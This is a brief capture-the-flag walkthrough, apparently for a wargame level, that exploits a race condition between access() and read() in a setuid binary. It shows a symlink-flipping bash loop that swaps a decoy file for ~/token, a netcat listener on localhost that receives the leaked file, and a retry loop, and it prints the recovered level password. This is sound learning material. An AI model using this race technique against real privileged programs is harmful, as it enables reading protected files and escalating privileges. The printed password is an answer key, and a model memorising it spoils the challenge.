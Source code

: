 1. Decomplie the executable ./level10

2. The exploit lies in the test of the file using access before using read.
Hence the goal is to change the link of the file between the call of access and read.

3. Make use of symbolic link that switch at a high frequency to have a specific file tested by the "access" function and the file of interest read by the read function

4. ln script : 

#!/bin/bash
while true
do
    ln -sf /var/tmp/file /var/tmp/link
    ln -sf  ~/token /var/tmp/link
done

5. use of nc to retrieve the written file

nc 127.0.0.1 6969 -lk

-l for listen, so the netcat acts as a server
-k so the connection does not close after the first received packet

6. Launch the program in a loop to multiply the chances of having the right instruction happen in the right conditions

while :; do ./level10 /var/tmp/link 127.0.0.1 ; done

7. We get flag10 password : woupa2yuojeeaaed06riuj63c

8. we launch the  getflag command

